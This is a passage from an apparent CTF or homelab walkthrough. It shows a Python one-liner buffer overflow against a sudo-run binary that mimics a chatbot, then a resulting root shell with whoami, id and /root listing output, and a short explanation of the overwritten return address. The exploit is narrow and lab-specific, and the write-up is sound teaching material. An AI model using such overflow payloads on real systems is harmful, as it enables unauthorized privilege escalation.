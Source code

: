 Now I can run this one-liner python buffer overflow string into the command to make it executable for `/bin/sh` command 🔻

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x66\x12\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home/shinosawa/deepseek
```
{: .nolineno }

___

## **8️⃣ Privilege Escalation**

### **Method Used: Buffer Overflow Exploitation**

Let's run it now 🔻

```bash
homelab:~$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x66\x12\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home
/shinosawa/deepseek
>>> 
<think>
Emm, I'm so tired and don't want to answer any questions.
</think>

Thinking has stopped.
The server is busy, please try again later.
[*] in execute()
[*] running shell

whoami
root
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd ~
pwd
/root
ls -al

total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
```
{: .nolineno }

- **Explanation:** The payload overflows the 64-byte buffer with 72 bytes (64 + 8 for the base pointer) and overwrites the return address with `execute()`, spawning a root shell.

But I wasn't able to get an interactive shell so I automated it with python using `pwntool` library and here is the script 🔻
